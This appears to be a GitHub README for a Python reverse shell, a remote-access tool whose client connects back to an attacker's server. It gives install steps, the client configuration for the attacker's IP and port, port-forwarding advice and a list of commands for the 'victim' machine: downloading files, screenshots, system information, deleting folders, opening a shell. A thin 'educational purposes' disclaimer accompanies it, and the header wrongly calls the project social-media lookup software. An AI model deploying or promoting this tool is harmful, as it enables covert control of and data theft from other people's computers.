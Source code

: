 ![Logo](https://i.ibb.co/svH6jZk/Shape-1-1.png)

<h1 align="center">REVERSE SHELL</h1>

<div align="center">
  <strong>Lookup information software, open-source project made with Python3 - Flask</strong>
  <br>
  <br>

  <a href="https://img.shields.io/badge/GitHub-100000?style=for-the-badge&logo=github&logoColor=white">
    <img src="https://img.shields.io/badge/GitHub-100000?style=for-the-badge&logo=github&logoColor=white" alt="Travis" />
  </a>
  
  <a href="https://img.shields.io/badge/VSCode-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white">
    <img src="https://img.shields.io/badge/VSCode-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white" alt="Documentation Status" />
  </a>

  <a href="https://img.shields.io/badge/CSS3-1572B6?style=for-the-badge&logo=css3&logoColor=white">
    <img src="https://img.shields.io/badge/CSS3-1572B6?style=for-the-badge&logo=css3&logoColor=white" alt="Py Versions" />
  </a>

  <a href="https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white">
    <img src="https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white" alt="PyPi" />
  </a>

  <a href="https://img.shields.io/badge/Python-FFD43B?style=for-the-badge&logo=python&logoColor=blue">
    <img src="https://img.shields.io/badge/Python-FFD43B?style=for-the-badge&logo=python&logoColor=blue" alt="LICENSE" />
  </a>

  <a href="https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white">
    <img src="https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white" alt="LICENSE" />
  </a>

</div>
<br>

Open-source project to easily find information about a specific user (Social Media Hunt) made with Python3, Flask(HTML5, CSS3)

Please use this program only on consenting people, I remind you that it is only for educational purposes and that I am not responsible for your actions


**Multi clients not supported, only single client for the moment**
<br>



# How does it work ?
![Logo](https://i.ibb.co/MZVzZWH/Forme-2-2.png)
<br>

- How does a reverse shell work ? 

The reverse shell principle is easy to understand, here is an example. <br>

A basic shell, it is the attacker who connects to his victim using various ways

In the case of a reverse shell it is quite the opposite, the attacker sends a script / application or other containing a script which will allow to connect to the server of the attacker in case here, our local IP

The attacker has a script (In this case here it is the "**server.py**" which contains the whole backend for him to execute remote commands.

Quick explanation with an image :

![Logo](https://i.ibb.co/0Zf7H73/Forme-2-1.png)

**To summarize instead of having the attacker who connects to his victim it is the victim who connects to the attacker.**


## 🛠 Installation

![Logo](https://i.ibb.co/J59tZ8d/Shape-1-2.png)

Important, you must have the version 3.x of Python installed or higher

* Clone this repository 
```
git clone https://github.com/zaqoQLF/reverse-shell.git
```
* Install the requirements
First way : 
```
python3 setup.py
```
Second way : 
```
pip3 install -r requirements.txt
```
## 🚀 Running Program
![Logo](https://i.ibb.co/jbGbJ6N/wdqd.png)

* **SERVER SIDE :** 

Once all dependencies are installed, run the **server.py** script.

It will check for updates & check if all dependencies are correctly installed.

After that you should have a mode selection. If you want to try it locally select the first one.
It will run on your localhost IP (http://127.0.0.1:5050/).

Once the server connected, it will listen for incoming requests.

If you select the second mode (Custom mode) your will be asked to choose your IP Address and your port.
In order to be able to use this program with other computer (different IP address) you need to open your ports (Port forwarding)
Once done you can choose your IP then your port (avoid port 80 etc...)

If the connection is established, it will listening for incoming requests.


* **CLIENT SIDE :**

**IMPORTANT :** In order to connect the client to the server, the server needs to run

Before running the **client.py** script, you need to configure manually the host & ports parameters 

```python
# Change the ip here
self.HOST_IP = "IP HERE"
# Change the port here
self.PORT_SERVER = PORT HERE (INT)
# Example
# self.PORT_SERVER = 5050
```
Change the `self.HOST_IP` with your server IP Address & your `self.PORT_SERVER` with your server port number.

Once all done your can run the server.py first, then it should listening and now run the client.py script with the same port & IP as the server.
it will automatically connect to the server.


### Commands to connect (Server Side)

* **Commands before connection to the victim :**

`--connect IP` : Connect to the user (specify IP) 

`--listen` : Close current connection then listen for new incoming connections

`view -r` : View requested connection (Single client handling)

`clear` : Clear your terminal

`exit -f` : Force exit the program & end all connections

`credits` : View project credits

`--setup` : Setup the IP / port (Automatically closing all connections)

`--param --all` : View all parameters (IP, PORT)

`--param -p` : View server port


* In order to execute commands, you need to accept incoming connection : 
(In reality, the connection is already accepted, but for the future i will be multi-client handling. So to prevent this i already coded that)

```
--connect IP HERE
``` 
![Logo](https://i.ibb.co/7QPVTcK/Forme-6.png)

* If you want to view requested connection use this command :
```
    view -r
```
![Logo](https://i.ibb.co/b2sWW0J/Forme-5.png)


## Remote Commands

* **Current remote commands available :**

`disconnect` : Disconnect your from the current session (target)

`exit` :  Exit program & end all connections

`active -session` :  Display information about the active session (target)

`get_info -name` : Display victim Desktop name

`get_info -sys` : Display victim Desktop system (OS, Version...)

`down -f` : Download a file (USAGE: down -f NameOfTheFile) [ Avoid png, or jpeg, it will works but instantly crash, need to fix it in the next update]

`screenshot` : Take a screenshot of the Desktop (will be saved on the victim computer, to get it, use down -f) [ Will fix it in the next update]
`cd` : Basic command

`dir` : Basic command

`mkdir` :  Create a folder (USAGE: mkdir NameOfTheFolder)

`rmdir` : Delete a folder (USAGE: rmdir NameOfTheFolder)

`rename` : Rename a file or a folder

`start` : Open a Command prompt window (obv spotted)

`status` : Get the current user connected to you

`get_info --all` : Get all information system of your victim

* More command coming soon.






